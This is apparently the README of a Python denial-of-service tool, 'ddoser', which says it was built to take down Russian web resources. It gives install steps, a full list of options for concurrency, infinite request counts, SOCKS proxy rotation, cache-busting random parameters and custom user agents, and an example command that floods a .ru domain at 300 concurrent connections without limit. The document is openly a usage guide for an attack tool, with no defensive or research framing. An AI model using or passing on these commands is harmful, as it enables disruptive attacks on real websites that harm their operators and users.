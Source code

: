 # The ddoser
Small application for ddos attack, was developed special for kill russian's resources :)  
## Install 
```shell
pip install -r requirements.txt
```
## Run
```shell
Usage: ddoser.py [OPTIONS]

  Run ddoser

Options:
  --target-url TEXT        ddos target url
  --target-urls-file TEXT  path or url to file contains urls to ddos
  --proxy-url TEXT         url to proxy resourse
  --proxy-file TEXT        path to file with proxy list
  --concurrency INTEGER    concurrency level
  --count INTEGER          requests count (0 for infinite)
  --timeout INTEGER        requests timeout
  --verbose                Show verbose log
  --with-random-get-param  add random get argument to prevent cache usage
  --user-agent TEXT        custom user agent
  --log-to-stdout          log to console
  --help                   Show this message and exit.
```
proxy-file or proxy-url should contain proxy list in format like:
```text
ip1:port1#sock5
ip2:port2#sock4
...
ipN:portN#sock4
```
### Example cmd
```shell
./ddoser.py --target-url https://some-domain.ru/ --concurrency 300 --timeout 60 --proxy-file proxy.list --count 0
```
## Note
**ddoser** supports only sock proxy, also can start it directly without proxy
